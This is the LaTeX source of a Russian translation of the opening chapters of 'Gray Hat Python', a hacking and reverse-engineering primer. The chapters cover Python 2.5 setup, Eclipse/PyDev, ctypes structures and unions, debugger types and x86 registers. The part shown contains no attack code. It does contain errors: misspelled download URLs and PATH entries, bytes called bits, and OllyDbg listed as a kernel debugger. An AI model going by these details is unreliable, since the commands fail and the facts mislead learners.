\documentclass[12pt]{book}

\usepackage{ifxetex}
\ifxetex
	\usepackage{polyglossia}
	\defaultfontfeatures{Mapping=tex-text}
	\setmainfont[ExternalLocation,
	   Path             = {fonts/},
	   Extension        = {.otf},
	   UprightFont      = {*-regular},
	   BoldFont         = {*-bold},
	   ItalicFont       = {*-italic},
	   BoldItalicFont   = {*-bolditalic}]{texgyrebonum}
	\setsansfont[ExternalLocation,
	   Path             = {fonts/},
	   Extension        = {.otf},
	   UprightFont      = {*-regular},
	   BoldFont         = {*-bold},
	   ItalicFont       = {*-italic},
	   BoldItalicFont   = {*-bolditalic}]{texgyreadventor}
	\setmonofont[ExternalLocation,
	   Path             = {fonts/},
	   Extension        = {.otf},
	   UprightFont      = {*-regular},
	   BoldFont         = {*-bold},
	   ItalicFont       = {*-italic},
	   BoldItalicFont   = {*-bolditalic}]{texgyrecursor}
	\setdefaultlanguage{russian}
	\setotherlanguage{english}
\else
	\usepackage[T2A]{fontenc}
	\usepackage{ucs}
	\usepackage[utf8x]{inputenc}
	\usepackage[english,russian]{babel}
	\usepackage{tgbonum}
	\usepackage{tgadventor}
	\usepackage{tgcursor}
\fi

\usepackage[a4paper]{geometry}
\geometry{left=2cm}
\geometry{right=4cm}
\geometry{top=2cm}
\geometry{bottom=3cm}

\usepackage{graphicx}
\usepackage{color}
\usepackage[usenames,dvipsnames,svgnames,table]{xcolor}
\usepackage{listings}
\lstset{
	basicstyle=\ttfamily\small,
	numbers=left,
	numberstyle=\footnotesize\color{gray},
	stepnumber=4,
	numbersep=5pt,
	backgroundcolor=\color{white},
	showspaces=false,
	showstringspaces=true,
	showtabs=true,
	rulecolor=\color{black},
	tabsize=4,
	captionpos=b,
	breaklines=true,
	breakatwhitespace=false,
	title=\lstname,
	extendedchars=false
}

\usepackage{hyperref}
\usepackage{fancybox}

\begin{document}

\begin{titlepage}
\begin{center}
% Title
	\hrule\vskip 0.4cm
	\textbf{\huge Gray Hat Python}
	\vskip 0.4cm

	\hrule\vskip 1.5cm
	\textsc{\Large Автор: Justin Seitz}
	\vskip 0.5cm

	% Author and supervisor
	\begin{minipage}{0.4\textwidth}
		\begin{flushleft} \large
		\emph{Перевод: }
		\href{http://reverse4you.org}{reverse4you.org}, \href{http://chumichev.blogspot.com/}{M.Chumichev}
		\end{flushleft}
	\end{minipage}
	\begin{minipage}{0.4\textwidth}
		\begin{flushright} \large
		\emph{Редактор:} 
		\href{http://vk.com/woodooshaman}{ks\_ks}
		\end{flushright}
	\end{minipage}
	\vfill
	% Bottom of the page
\end{center}
\end{titlepage}

\section*{Введение}

Я изучил Python конкретно для хакинга - и я осмелюсь сказать, что это утверждение правдиво для многих других так же. Я провел достаточно много времени в изучении языка, который хорошо приспособлен для хакинга и реверс инженерии, и несколько лет назад стало весьма очевидно, что Python становится настоящим лидером среди языков ориентированных на хакинг. Однако хитрость была в том, что не было стоящего руководства по теме, как использовать Python для различных задач хакинга. Вам приходится копаться в форумах и мануалах, и обычно проводить достаточно много времени времени пошагово просматривать код, чтобы заставить его работать правильно. Эта книга нацелена на заполнение этого разрыва путем предоставления вам беглого курса как использовать Python для хакинга и реверс-инженерии различными способами.

Книга составлена так, что позволит вам изучить некоторые теоретические основы большинства средств и техник хакинга, включающих дебаггеры, бэкдоры, фаззеры, эмуляторы, и инъекции кода, обеспечивая вам некоторое представление о том, как готовые инструменты Python могут быть использованы, когда не требуются обычные решения. Вы изучите не только как использовать инструменты, основанные на Python, но и как создавать инструменты на языке Python. Но предупреждаем, это не исчерпывающее руководство! Существует много-много инструментов для ИБ (информационной безопасности), написанных на Python, которые я не рассматривал. Однако, эта книга позволит вам освоить много подобных навыков по применению приложений, которые вы сможете использовать, отлаживать, расширять, и настраивать любое Python-приложение по вашему выбору.

Есть несколько способов изучения этой книги. Если вы новичок в Python или в разработке инструментов для хакинга, то вам стоит читать книгу от начала до конца по порядку. Вы изучите немного необходимой теории, запрограммируете кучу кода на Python, и получите твёрдые знания о том, как решить множество задач хакинга и реверсинга по прочтению книги. Если вы уже знакомы с Python и хорошо понимаете библиотеку ctypes Python, то переходите сразу к Главе 2. Для тех из вас, кто ``в теме'', вполне достаточно переходить к нужным разделам книги и использовать фрагменты кода или определенные разделы, как вам надо в ваших повседневных задачах.

\newpage

Я потратил много времени на отладчики, начиная с теории отладки в Главе 2, и продолжая прямо до Immunity Debugger (модификация OllyDbg прим.) в Главе 5. Отладчики это важные инструменты для любого хакера, и я не стесняюсь рассказывать вам о них достаточно подробно. Двигаясь дальше, вы узнаете некоторые техники перехвата (hooking) и инъекций в Главах 6 и 7, которые вы можете добавить в некоторые концепции отладки управления программой и манипулирования памятью.

Следующий раздел книги нацелен на взлом приложений используя фаззеры (fuzzers). В Главе 8 вы начнете изучать фаззинг (fuzzing), и создадите свой простейший файловый фаззер. В Главе 9 мы будем использовать мощный Sulley fuzzing framework чтобы сломать настоящий FTP-демон, и в Главе 10 вы узнаете как создать фаззер для взлома драйверов Windows.

В Главе 11, вы увидите, как автоматизировать статические задачи аналитики в IDA Pro, популярного средства для бинарного статического анализа. Мы завершим книгу темой PyEmu, основанного на Python эмулятора компьютера, в Главе 12.

Я постарался представить исходные коды несколько меньше, с детальными пояснениями о том, как работает код, вставленный в определенных точках. Часть времени при изучении нового языка, или изготовлении новых библиотек, проводится в необходимом усердном переписывании кода и отладки совершенных вами ошибок. Я поощряю ваш ручной ввод кода. Все исходные коды к вашему удовольствию представлены на официальном сайте книги.

Ну а теперь приступим к программированию!

\newpage
\thispagestyle{empty}

\tableofcontents

\chapter{Настройка рабочего окружения}
\addcontentsline{toc}{section}{Intro}
\section*{Intro}

Прежде чем вы начнете совершенствоваться в искусстве программирования в Серой Шляпе на языке Python, вам следует пройти самую неинтересную часть этой книги - настройки вашей будущей рабочей среды разработки. Весьма важно, чтобы вы имели хорошую и удобную среду разработки, которая позволит вам провести время в поглощении крайне интересной информации в данной книге, а не спотыкаться и набивать шишки, пытаясь заставить ваш код выполняться.

Эта глава быстро покрывает тему установки и настройки Python 2.5 (на момент перевода версия Python уже 2.6, как будет работать с 3 версией без понятия, но всё равно для всех примеров в книге будет использоваться Python именно версии 2.5. прим. пер.), конфигурирования вашего рабочего окружения Eclipse, и основы написания Си-совместимого кода на Python. Как только вы настроите окружение и поймете основы, мир будет для вас устрицей, а эта книга покажет вам, как её открыть.

\section{Требования к системе}

Я предполагаю, что вы используете 32-битную ОС, основанную на базе Windows (XP, Vista, 7). Windows имеет широкий спектр инструментов и хорошо поддается для программирования на Python. Все главы этой книги ориентированны в первую очередь на Windows, и большинство примеров будут работать только с ОС Windows.

Однако, будет несколько примеров, которые вы можете запустить на дистрибутиве Linux. Для разработки под Linux я рекомендую вам скачать 32-битный дистрибутив Linux'a как VMware устройства. Проигрыватель VMware устройств бесплатен, и позволяет вам быстро перемещать файлы с вашей рабочей системы на виртуальную Linux машину. Если у вас завалялся лишний компьютер, можете попробовать свои силы и установить полноценную Linux систему. Для целей книги использовался основанный на Red Hat Linux дистрибутив, вроде Fedora Core 7 или Centos 5. Конечно, в качестве альтернативы, вы можете запустить Linux и сэмулировать на нём Windows. Это дело вашего вкуса.

\begin{Ovalbox}{Бесплатные образы для VMware}
На сайте VMware есть каталог бесплатных устройств. Эти устройства позволяют обратному разработчику (реверс инженеру) или исследователю уязвимостей разместить вредоносную программу (malware) или приложения на виртуальной машине, сокращая к минимуму риски для физической инфраструктуры и предоставляют изолированный ``черновик'' для работы. Вы можете посетить страницу виртуальных устройств по адресу и скачать плеер по адресу.
\end{Ovalbox}

\section{Получение и установка Python 2.5}

Среда Python устанавливается быстро и безболезненно как на Linux так и на Windows. Пользователям Windows облегчит жизнь установщик, который позаботится обо всех настройках, однако на Linux вы будете собирать и устанавливать Python из исходных кодов (Однако на очень многих дистрибутивах Linux Python 2.5 установлен ``из коробки'').

\subsection{Установка Python в Windows}

Пользователи Windows могут получить установщик с официального сайта Python. Только дважды щелкните мышкой по файлу установщика и следуйте далее шаг за шагом по этапам установки. Установщик создаст каталог `C:\\Python25\\'. В этом каталоге будут установлены файл python.exe - интерпретатор команд Python, а так же все стандартные библиотеки.
Примечание: Вместо этого вы можете установить отладчик Immunity Debugger, который содержит не только сам отладчик, но и установщик Python 2.5. В последних главах книги вы будете использовать Immunity Debugger для многих задач, поэтому вы можете ``убить двух зайцев'' одной установкой. Чтобы скачать и установить Immunity Debugger, посетите \href{http://debugger.immunityinc.com}.

\subsection{Установка Python в Linux}

Для установки Python 2.5 в ОС Linux, вам следует скачать и скомпилировать исходные коды. Это дает вам полный контроль над настройками в процессе установки Python в ОС на базе Red Hat. Процесс установки подразумевает, что вы будете выполнять все следующие команды от имени пользователя root(суперпользователя).

Первым шагом будет загрузка и распаковка исходного кода Python 2.5. В командном терминале (консоли) вводите следующее:
Код:
\begin{lstlisting}
# cd /usr/local
# wget http://python.org/ftp/pyton/2.5.1/Python-2.5.1.tgz
# tar -zxvf Python-2.5.1.tgz
# mv Python-2.5.1 Python25
# cd Python25
\end{lstlisting}
Вы только что скачали и распаковали исходный код в `/usr/local/Python25'. Следующим шагом будет компиляция исходного кода и проверки работоспособности интерпретатора Python:
Код:
\begin{lstlisting}
# ./configure --prefix=/usr/local/Python25
# make && make install
# pwd
/usr/local/Python25
#python
Python 2.5.1 (r251:54863, Mar 14 2012, 07:39:18)
[GCC 3.4.6 20060404 (Red Hat 3.4.6-8)] on Linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
\end{lstlisting}
Теперь вы находитесь в интерактивной оболочке Python, которая предоставляет вам полный доступ к интерпретатору Python и любой встроенной библиотеке. Быстрая проверка покажет, что команды интерпретируются верно:
Код:
\begin{lstlisting}
>>> print "Hello World!"
Hello World!
>>> exit()
#
\end{lstlisting}
Отлично! Все работает, как вам надо. Чтобы застраховаться, что ваше пользовательское окружение находит, где находится интерпретатор Pyton, автоматически, вам следует изменить файл `/root/.bashrc'. Лично я использую текстовый редактор nano для всех моих работ с текстом, но вы вольны выбрать любой текстовый редактор, с которым вам комфортно работать. Откройте файл `/root/.bashrc' и в конце файла добавьте следующую строку:
Код:
\begin{lstlisting}
export PATH=/urs/local/Pyton25/:$PATH
\end{lstlisting}
Эта строка укажет окружению Linux что пользователь root может иметь доступ к интерпретатору Python без указания полного пути к нему. Если вы закончите сессию root и затем войдете под root снова, когда вы введете python в любом месте в командной строке, вы незамедлительно окажетесь в интерпретаторе Python.
Примечание переводчика: В Windows можно сделать то же самое. Для этого нужно щелкнуть правой кнопкой мыши на ``Мой компьютер'' -> ``Свойства'' -> ``Дополнительно'' -> ``Переменные среды'' -> Выбрать переменную ``Path'' -> ``Изменить'' -> В строке ``Значение переменной'' в конце дописать ;C:\\Python25. Далее проверяем в командной строке. Вводим python и смотрим, запустился ли интерпретатор, как в случае с Linux или нет.

И так, теперь у вас полностью рабочие интерпретаторы Python как в Windows так и в Linux. Настало время настроить вашу интегрированную среду разработки (IDE). Если у вас есть IDE в которой вам комфортно работать, то можете пропустить следующий раздел.


\section{Настройка среды Eclipse и PyDev}

Как правило для быстрой разработки и отладки Python приложений, абсолютно необходимо использовать полноценную IDE. Взаимодействие популярной среды разработки Eclipse и модуля PyDev к нему дает вам в руки огромное число мощных возможностей, которые не предлагают большинство других средств разработки. Кроме того, Eclipse запускается одинаково в Windows, Linux, и Mac, а так же имеет отличную группу поддержки и разработки. Давайте быстро пройдем все этапы как установить и настроить Eclipse и PyDev:
Скачиваете архив Eclipse Classic для вашей платформы с сайта.
Распаковываете его в "C:\\Eclipse".
Запускаете C:\\Eclipse\\eclipse.exe.
При первом запуске Eclipse спросит вас где хранить ваше рабочее место, вы можете принять предлагаемое место по умолчанию, и поставить галочку в графу "Use this as default and do not ask again". Щелкните на OK.
Как только Eclipse запустится выберите "Help => Install new Software..."
Переходите к полю Work with:.
Кликните на кнопку Add...
В поле Name введите описывающую строку, вроде PyDev Update. Убедитесь, что поле URL содержит http://pydev.org/updates и щёлкните OK. Затем щелкните Finish, и вас выбросит в установщик обновлений Eclipse.
Диалог обновлений появится через несколько мгновений. Когда он появится, выберите PyDev и нажмите Next для продолжения.
Затем прочитайте и примите лицензионное соглашение для PyDev. Если вы согласны с ним, то выберите "I accept the terms in the license agreement".
Щелкните Next и наконец Finish. Вы увидите, как Eclipse установит PyDev дополнение.
В конце кликните Yes в диалоговом меню, которое появится после установки PyDev. Это перезагрузит Eclipse, и запустит его с вашим новеньким PyDev.

На следующей стадии конфигурирования Eclipse вы убедитесь, что PyDev может найти правильный интерпретатор Python для последующего использования, когда вы будете запускать скрипты в PyDev:
Когда запустится Eclipse, выберите "Window => Preferences";
Разверните ветвь PyDev, и выберите Interpreter - Python;
Нажмите кнопку New...;
Укажите путь в Browse: "C:\\Python25\\python.exe" и кликните Open;
Следующее диалоговое окно покажет вам список включенных библиотек для интерпретатора. Оставьте все как есть и кликните OK;
Затем кликните OK еще раз, чтобы закончить настройку интерпретатора.

Теперь у вас есть установленный и работоспособный PyDev, настроенный для использования свежеустановленного интерпретатора Python 2.5. Прежде чем начнете программировать, вам следует создать новый PyDev проект. Этот проект будет содержать все исходные файлы, данные далее в этой книге. Чтобы настроить новый проект, следуйте следующим образом:
Выберите "File => New => Project";
Разверните ветку PyDev, и выберите PyDev Project. Кликните Next для продолжения;
Назовите "Gray Hat Python". Щёлкните Finish.

Вы заметите, что экран Eclipse перегруппирует себя, и вы увидите проект Gray Hat Python проект в наверху слева. Теперь щелкните правой кнопкой мыши папу src и выберите "New => PyDev Module". В графе Name введите chapter1-test, и кликните на Finish. Вы увидите, что панель вашего проекта обновится, и в этот список будет добавлен файл chapter1-test.py.

Чтобы запустить скрипт Python в среде Eclipse, только кликните кнопку Run As (зеленый кружок с белой стрелкой внутри) на панели инструментов. Чтобы заново запустить последний запущенный скрипт нажмите Ctrl+F11. Когда вы запустите скрипт в Eclipse, вместо командной строки Windows, вы увидите панель внизу среды Eclipse, обозначенной, как Console. Весь вывод ваших скриптов будет отображаться на панели Console. Вы так же можете обратить внимание, что текстовый редактор уже открыл chapter1-test.py и уже ожидает немного сладкого нектара Python.

\subsection{Лучшие друзья Хакера: ctypes}

Модуль ctypes для Python является безусловно одной из самых мощных библиотек, доступных разработчику на Python. Библиотека ctypes позволяет вам вызывать функции в динамически подключаемых библиотеках (dll) и имеет богатые возможности для создания комплексных типов данных языка Си и полезных функций для низкоуровневой работы с памятью. Это необходимо для того, чтобы вы понимали основы того, как использовать библиотеку ctypes, так как вы будете полагаться на эту библиотеку в значительной степени на протяжении всей книги.

\subsection{Использование динамических библиотек}

Первый шаг на пути использования ctypes это понимание, как запускать и получать доступ к функциям в динамически подключаемых библиотеках. Динамически подключаемая библиотека (dynamically linked library) - это скомпилированный бинарный файл, который подключаются к основному процессу во время его выполнения по мере надобности. На платформе Windows эти бинарные файлы называются динамически подключаемые библиотеки, а на платформе Linux - разделяемые объекты (eng. shared objects(SO)). В обоих случаях эти бинарные файлы предоставляют функции через экспортированные имена, какие получают возможность запуска по реальным адресам в памяти. Обычно во время выполнения вам приходится решать, какой будет порядок адресов функций для вызова этих функций, однако с ctypes вся эта грязная работа уже сделана.

Есть три различных способа загрузки dll в ctypes: cdll(), windll(), и oledll(). Разница между ними в том, каким образом вызываются функции этих библиотек, и какие они возвращают значения. Метод cdll() используется для запуска библиотек, которые экспортируют функции, используя стандартное соглашение вызова cdecl. Метод windll() загружает библиотеки, которые экспортируют функции, используя соглашение вызова stdcall, которое является родным соглашением в Microsoft Win32 API. Ну а метод oledll() работает так же, как windll(), однако, он предполагает, что экспортированная функция возвращает Windows код ошибки HRESULT, который используется специально для сообщений об ошибках, возвращаемых функциями Объектной Модели Компонентов (MS Component Object Model, COM).

В качестве небольшого примера, вы возьмете функцию printf() из библиотеки времени исполнения языка C (С runtime) в Windows и Linux, и используете её для вывода в тестовом сообщении. В Windows C runtime находится в msvcrt.dll, находящемся в папке 'C:\\WINDOWS\\System32\\', а в Linux это libc.so.6, которая по умолчанию находится в '/lib/'. Создайте следующий скрипт Python или в Eclipse, или в вашей обычной рабочей директории Python, и введите следующий код:
Код:
\begin{lstlisting}
# chapter1-printf.py: Код для Windows
from ctypes import *

msvcrt = cdll.msvcrt
message_string = "Hello world!\n"
msvcrt.printf("Testing: %s", message_string)
\end{lstlisting}
Этот скрипт выводит следующее:
Код:
\begin{lstlisting}
C:\Python25\python chapter1-printf.py
Testing: Hello world!
C:\Python25>
\end{lstlisting}
Под Linux этот пример будет немного отличаться, но делать будет то же самое. Перейдите в Linux и создайте chapter1-printf.py в вашей директории `/root/'

\begin{Ovalbox}{Понимание соглашений вызовов}

Соглашение вызовов описывает как правильно вызывать определенную функцию. Оно включает в себя порядок того, как выделяются параметры функции, какие параметры функции помещаются в стек или переходят в регистры, и как раскручивается стек при возвращении функцией значения. Вам надо научиться понимать два соглашения вызовов: cdecl и stdcall. В соглашении cdecl параметры помещаются в стек справа налево, и вызывающий функцию ответственен за очистку стека от аргументов. Это соглашение используется в большинстве C-систем на архитектуре x86.

Вот пример вызова функции с помощью cdecl:

На языке C:
Код:
\begin{lstlisting}
int python_rocks(reason_one, reason_two, reason_tree);
\end{lstlisting}
На ассемблере x86:
Код:
\begin{lstlisting}
    push reason_tree
    push reason_two
    push reason_one
    call python_rocks
    add esp, 12
\end{lstlisting}
Вы можете ясно увидеть, как передаются аргументы функции. Последняя линия выделяет (увеличивает) стеку 12 байт (у функции 3 параметра, и каждый параметр стека занимает 4 байта, поэтому в сумме дает 12 бит), которых как раз хватает для этих параметров.

Пример соглашения stdcall, которые используются в Win32 API демонстрируется тут:

На языке C:
Код:
\begin{lstlisting}
int my_socks(color_one, color_two, color_tree);
На языке ассемблера x86:
Код:
    push color_tree
    push color_two
    push color_one
    call my_socks
\end{lstlisting}
В данном случае вы видите, что порядок параметров такой же, но очистка стека не проводится вызывающим функцию, а функцией перед возвращением ей полученных значений.

Для обоих соглашений важно запомнить, что возвращенные значения функции хранятся в регистре EAX.
\end{Ovalbox}
Код:
\begin{lstlisting}
# chapter1-printf.py: пример для Linux
from ctypes import *

libc = CDLL("libc.so.6")
message_string = "Hello world!\n"
libc.printf("Testing: %s", message_string)
\end{lstlisting}
Данный скрипт в Linux будет выводить следующее:
Код:
\begin{lstlisting}
# python /root/chapter1-printf.py
Testing: Hello world!
#
\end{lstlisting}
Это легко уметь вызывать функции в динамической библиотеке и использовать функции, которые она экспортирует. Вы будете использовать эту технику много раз на протяжении всей книги, поэтому очень важно, чтобы поняли, как это работает.

\subsection{Конструирование типов данных C}

Создание типа данных языка C в Python - это словно откровенная сексуальность в этом гиковском, странном способе (Дословно: Creating a C datatype in Python is just downright sexy, in that nerdy, weird way. кто предложит перевод лучше, будет молодцом ). Наличие этих особенностей позволяет вам полностью использовать компоненты, написанные на C и C++, которые значительно увеличивают мощь языка Python. Кратко просмотрите таблицу 1-1, для понимания того, как взаимосвязаны типы данных C и Python и результирующий тип ctypes.

\begin{figure}
  \center
  
\includegraphics{./pic/chap1/1.PNG}
  \caption{Python to C Datatype Mapping}
\end{figure}

Видите, как хорошо типы данных конвертируются туда и обратно? Используйте эту таблицу для удобства, в случае, если вы забудете преобразование типов. Типы из ctypes могут быть инициализированы со значением, но оно должно быть надлежащего типа и размера. Для демонстрации, откройте вашу оболочку Python и введите несколько следующих примеров:
код:
\begin{lstlisting}
C:\Python25>python.exe
Python 2.5 (r25:51908, Sep 19 2006, 09:52:17) [MSC v.1310 32 bit (Intel)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> from ctypes import *
>>> c_int()
c_long(0)
>>> c_char_p("Hello, world!")
c_char_p('Hello, world!')
>>> c_ushort(-5)
c_ushort(65531)
>>>
>>> seitz = c_char_p("loves the python")
>>> print seitz
c_char_p('loves the python')
>>> print seitz.value
loves the python
>>> exit()
\end{lstlisting}

Последний пример описывает вам как переменной seitz присваивается указатель на строку "loves the python". Для доступа к содержимому указателя используется метод seitz.value, который называется разыменовыванием указателя.

\subsection{Передача параметров по ссылке}

Очень часто в C и C++ есть функции, которые ожидают указатель, как один из параметров. Причина в том, что функция может как записывать в этот участок памяти, или, если при передаче по значению параметр слишком велик. В любом случае, ctypes обладает функционалом чтобы сделать именно это, используя функцию byref(). Когда функция ожидает указатель, в качестве параметра, вы вызываете её так: fuction\_main( byref (parametr) ).

\subsection{Определение структур и объединений}

Структуры и объединения - важные типы данных, которые часто используются как Win32 API, так и с libc в Linux. Структура - это простая группа переменных, которые могут быть одного или разных типов данных. Вы можете получить доступ к любой содержащейся в структуре переменной, используя точечную нотацию (dot notation), например такую: beer\_recipe.amt\_barley. Это даст доступ к переменной amt\_barley, находящейся в структуре beer\_recipe. Следующий пример определит структуру (или struct как их обычно называют для упрощения) как в C так и в Python.
Код на C:
Код:
\begin{lstlisting}
structure beer_recipe
{
    int amt_barley;
    int amt_water;
};
\end{lstlisting}
Код на Python:
Код:
\begin{lstlisting}
class beer_recipe(Structure):
    _fields_ = [
    ("amt_barley",c_int),
    ("amt_water",c_int),
    ]
\end{lstlisting}
Как видите, ctypes делает очень легким создание C-совместимой структуры. Замечу, что это не полный рецепт пива, и я не советую вам пить смесь ячменя и воды.

Объединения, это почти тоже самое, что и структуры. Однако в объединении все участвующие переменные находятся по одному адресу в памяти. Следующий пример демонстрирует объединение, которое позволяет вам отобразить число тремя разными способами.

Код на C:
Код:
\begin{lstlisting}
union {
    long barley_long;
    int barley_int;
     char barley_char[8];
}barley_amount;
\end{lstlisting}
Код на Python:
Код:
\begin{lstlisting}
class barley_amount(Union):
    _fields_=[
    ("barley_long", c_long),
    ("barley_int", c_int),
    ("barley_char", c_char * 8),
    ]
\end{lstlisting}
Если вы присвоите переменной barley\_int из объединения barley\_amount значение 66, то затем вы сможете использовать переменную barley\_char для отображения символа представляющего это число. Для демонстрации создадим новый файл chapter1-unions.py и вобъем следующий код.
Код:
\begin{lstlisting}
# chapter1-unions.py
from ctypes import *

class barley_amount(Union):
    _fields_=[
    ("barley_long", c_long),
    ("barley_int", c_int),
    ("barley_char", c_char * 8),
    ]
value = raw_input("Enter the amount of barley to put into the beer vat:")
my\_barley = barley_amount(int(value))
print "Barley amount as a long: %ld" %my_barley.barley_long
print "Barley amount as an int: %d" %my_barley.barley_long
print "Barley amount as a char: %s" %my_barley.barley_char
\end{lstlisting}
Вывод будет следующим:
Код:
\begin{lstlisting}
C:\Python25> python chapter1-unions.py
Enter the amount of barley to put into the beer vat:66
Barley amount as a long: 66
Barley amount as an int: 66
Barley amount as a char: B

C:\Python25>
\end{lstlisting}
Как видите, присвоив объединению одно значение, вы можете получить три разных представления этого значения. Если вас смущает вывод значения переменной barley\_char, а именно буква 'B', то это лишь эквивалент ASCII (американский стандарт кодировки) десятичного 66.

Переменная barley\_char из этого объединения - отличный пример того, как определять массив в ctypes. В ctypes массив определяется путем умножения типа на количество элементов, которые вы хотите выделить в массиве. В предыдущем примере, 8-элементный массив символов был определен для переменной barley\_char из объединения.

Теперь у вас есть рабочее окружение Python на двух отдельных системах, и теперь вы понимаете как взаимодействовать с низкоуровневыми библиотеками. Настало время для того, чтобы начать применять эти знания для создания широкого списка инструментов для помощи в реверс-инженерии и хакинге программ. Надеваем шлем.

\chapter{Отладчики и устройство отладчика}
\addcontentsline{toc}{section}{Intro}
\section*{Intro}

Отладчик - глазное яблоко хакера. Отладчики позволяют вам выполнять трассировку (отслеживание) выполнения процесса, или проводить динамический анализ. Возможность выполнения динамического анализа абсолютно необходима, когда речь заходит о создании эксплойтов, поддержки фазеров и проверки вредоносного ПО. Это очень важно, чтобы вы понимали что такое отладчик, и принцип его работы. Отладчики предоставляют целое множество конкретных расширений и функционала, которое очень полезно при оценке ошибок в программах. Большинство из них предоставляют возможность запускать, останавливать, или выполнять пошагово процесс, устанавливать точки останова, манипулировать регистрами и памятью, и отлавливать случающиеся исключения в исследуемом процессе.

Но прежде чем мы двинемся дальше, давайте обсудим разницу между отладчиком белого ящика(white-box debugger) и отладчиком черного(black-box debugger). Большинство платформ разработки или IDE, содержат встроенный отладчик, который позволяет разработчикам отслеживать процесс выполнения программы, имея исходный код, и контролируя очень многое. Это называется отладкой белого ящика. Эти отладчики полезны во время разработки ПО, но реверс-инженер, или охотник за багами, редко имеет доступ к исходным кодам, и ему приходится использовать отладчики черного ящика, во время пошагового выполнения программы (трассировки). Отладчик черного ящика предполагает, что исследуемая программа полностью непрозрачна для хакера, и единственная доступная информация - это дизассемблированный код. При этом методе нахождения ошибок, более сложном и затратном по времени, хорошо подготовленный реверс-инженер в состоянии понять устройство программы на очень высоком уровне. Иногда ребята, ломающие программы, могут получить более глубокие знания и понимание того, как работает программа, нежели разработчик ее создавший!

Очень важно различать два подкласса отладчиков черного ящика: уровня пользователя и уровня ядра. Уровень пользователя (как правило т.н. ring 3 (кольцо третьего уровня, прим.)) - это режим процессора, в котором запускаются ваши пользовательские приложения. Приложения уровня пользователя выполняются с наименьшим количеством привилегий. Когда вы запускаете calc.exe чтобы что-то посчитать, вы порождаете процесс на уровне пользователя; если вы будете пошагово выполнять (тресировать) этот процесс, это будет отладка на уровне пользователя. Уровень ядра (ring 0) - это наибольший уровень привилегий. Это уровень, где работает ядро операционной системы вместе с драйверами и другими низкоуровневыми компонентами. Когда вы анализируете сетевой трафик (сниффаете, от sniffing - "нюхать", прим.) с помощью Wireshark, вы взаимодействуете с драйвером, который работает на уровне ядра. Если вы хотите остановить драйвер, и исследовать его состояние в любой точке, то вам понадобится отладчик уровня ядра.

Сейчас я приведу вам короткий список отладчиков уровня ядра, часто используемых реверс-инженерами и хакерами: WinDbg от Microsoft и OllyDbg, бесплатный отладчик от Oleh Yuschuk. При отладке под Linux, обычно используют GNU Debugger (gdb). Все три отладчика достаточно мощны, и каждый предлагает такие возможности, которые не доступны другим отладчикам.

Однако в последние годы стала проявляться тенденция в интеллектуальной отладке, особенно на платформе Windows. Интеллектуальный отладчик поддерживает скрипты (сценарии), поддерживает расширенные возможности, например такие, как вызов перехвата, и что самое главное, имеют много возможностей используемых для охоты на баги(bug hunting) и реверс-инженеринга. Два новых лидера в этой сфере: PyDbg от Pedram Amini и Immunity Debugger от Immunity inc.


\section{Регистры общего назначения центрального процессора}

Регистр - это небольшой объем памяти находящийся прямо на центральном процессоре, и доступ к нему - быстрейший метод для процессора, чтобы получить данные. В наборе инструкций архитектуры x86 используются восемь регистров общего назначения: EAX, EDX, ECX, ESI, EDI, EBP, ESP и EBX. Большинство регистров доступны процессору, но мы рассмотрим их только в конкретных обстоятельствах, когда они потребуются. Каждый из восьми регистров общего назначения разработан для своей конкретной работы, и каждый выполняет свою функцию, которая позволяет процессору эффективно выполнять инструкции. Это очень важно - понимать, какой регистр для чего используется, ибо это знание положит фундамент понимания того, как устроен отладчик. Давайте пройдемся по каждому регистру и его функциям. Мы закончим выполнением простым упражнением реверс-инженерии, для иллюстрации их использования.

Регистр EAX, так же называемый регистром аккумуляции (или аккумулятором), используется для выполнения расчетов, а так же для хранения значений возвращаемых вызванными функциями. Многие оптимизированные инструкции в наборе инструкций x86 разработаны для перемещения данных именно в регистр EAX и извлечения данных из него, а так же для выполнения расчетов с этими данными. Большинство простых операций, таких как сложение, вычитание и сравнение оптимизированы для использования регистра EAX. Кроме того, многие определенные операции, такие как умножение или деление, могут выполняться только в регистре EAX.

Как было замечено ранее, возвращенные значения из вызываемых функций хранятся в EAX. Это важно запомнить, что вы можете легко определить, если не удалось вызвать функцию или наоборот удалось в зависимости от значения находящегося в EAX. Кроме того, вы можете определить актуальное значение, которое возвращает функция.

Регистр EDX это регистр данных (data register). Этот регистр в основном является дополнительным для регистра EAX, и он помогает хранить дополнительные данные для более сложных вычислений, таких как умножение и деление. Он так же может быть хранилищем данных общего назначения, но обычно он используется в расчетах, выполненных в сочетании с регистром EAX.

Регистр ECX так же называется регистром-счетчиком (count register), он используется в операциях цикла. Часто повторяющиеся операции стоит хранить в упорядоченной пронумерованной строке. Очень важно понимать, что счетчик регистра ECX уменьшает, а не увеличивает значение. Продемонстрируем это на примере отрывка, написанного на Python:
Код:
\begin{lstlisting}
counter = 0

while counter < 10:
    print "Loop number: %d" % counter
    counter +=1
\end{lstlisting}
Если мы переведем этот код в язык ассемблера, то в первом цикле значение в ECX будет равно 10, 9 в следующем цикле и так далее. Вас может немного смутить, что это противоречит тому, что написано в листинге на Python, но просто запомните, что он уменьшается, и все будет хорошо.

В ассемблере x86 циклы, которые обрабатывают данные, полагаются на регистры ESI и EDI для продуктивной манипуляции данными. Регистр ESI это индекс источника (source index) данных операции, и хранит адрес входящего потока данных. Регистр EDI указывает на место, где находится результат обработанных данных, поэтому он называется индексом назначения(приемника) (destination index). Это легко запомнить таким образом: регистр ESI используется для чтения данных, а EDI для записи. Использование регистров индексов источника и приемника значительно увеличивает производительность выполняемой программы.

Регистры ESP и EBP соответственно указатель стека (stack pointer) и указатель базы(base pointer). Эти регистры используются для управления вызовами функций и операциями со стеком. Когда функция вызвана, аргументы функции перемещаются (проталкиваются) в стек и следуют по адресу возврата. Регистр ESP указывает на самый верх стека, поэтому он будет указывать на адрес возврата. Регистр EBP указывает на самый низ стека вызовов. В некоторых случаях компилятор может использовать оптимизацию для удаления регистра EBP как указателя кадра, в этих случаях регистр EBP освобождается и может использоваться точно так же, как любой другой регистр общего назначения.

